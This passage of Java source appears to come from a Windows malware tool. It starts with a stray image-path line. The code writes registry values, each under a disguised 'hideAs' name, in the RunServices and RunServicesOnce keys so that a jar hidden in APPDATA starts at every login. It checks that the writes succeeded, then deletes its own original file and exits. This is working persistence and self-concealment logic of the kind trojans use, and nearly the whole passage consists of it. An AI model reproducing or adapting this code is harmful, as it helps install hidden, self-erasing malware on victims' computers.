                         "reg add \"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",
                        "reg add \"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",
                };
                Process proc = Runtime.getRuntime().exec(reg_start[0]);
                proc.destroy();
                for (int i = 1; i < reg_start.length; i++) {
                    final boolean[] done = new boolean[1];
                    int finalI = i;
                    Thread thread = new Thread() {
                        public void run() {
                            if (debug) {
                                print("Executing command: " + reg_start[finalI]);
                            }
                            try {
                                Process proc = Runtime.getRuntime().exec(reg_start[finalI]);

                                BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                                String s = null;
                                while ((s = stdInput.readLine()) != null) {
                                    if (s.equalsIgnoreCase("The operation completed successfully.")) {
                                        print("Successfulyy added to registry");
                                        proc.destroy();
                                        done[0] = true;
                                    }
                                }

                                if (proc.isAlive()) {
                                    print("Failed to add to registry");
                                    proc.destroy();
                                }
                            } catch (Exception e) {
                                if (debug) {
                                    print(e.getMessage());
                                }
                            }
                        }
                    };
                    thread.start();
                    if (done[0]) {
                        thread.stop();
                    }


                }
            }

            if (new File(file_name).exists()) {
                if (new File(file_name).delete()) {
                    System.exit(1);
                }
            }
        }
    }
